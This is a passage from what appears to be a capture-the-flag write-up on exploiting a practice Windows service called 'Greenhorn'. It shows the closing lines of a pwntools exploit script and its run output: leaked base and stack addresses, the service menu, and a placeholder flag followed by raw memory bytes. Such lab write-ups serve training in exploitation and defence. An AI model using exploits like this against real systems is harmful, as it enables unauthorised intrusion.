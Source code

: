 ```
target.sendline(payload)

target.interactive()
```

When we run the exploit:
```
$ python exploit.py
[+] Opening connection to 192.168.13.1 on port 9998: Done
[*] Base is: 0x490000
[*] Stack infoleak: 0x99fa70


Greenhorn Menu:
--------------
    (D)ebugging
    (S)tatic Analysis
    S(h)ellcode
    (A)SLR
    (N)X/DEP
    (V)ulnerability
    (Q)uit

Selection:

VULNERABLE FUNCTION
-------------------
Send me exactly 1024 characters (with some constraints).


[*] Switching to interactive mode
flag{insert_flag_here}\x99\x00\xac����\x99\x000��\xff\\x00\x00\x00<��r\x0bw�1�\x0��\x00\x00\x00\x00\x00\x00\x000��\x0bw�1�\x00000\x0\x00\x00\x00�w\x00\x00\x00B\x00\x07w\x00\x00\x00\x00B\x0(��\x00\x00\x00B\x00\x00\x00�1�\x00\x00\x00\x00\x00\x05\x00\x00\x00 \x00\x00C\x00:\x00\\x00U\x00s\x00e\x00r\x00s\x00\\x00g\x00u\x00y\x00i\x00n\x00a\x00t\x00u\x00x\x00e\x00d\x00o\x00\\x00D\x00e\x00s\x00k\x00t\x00o\x00p\x00\\x00k\x00e\x00y\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

Just like that, we got the flag!
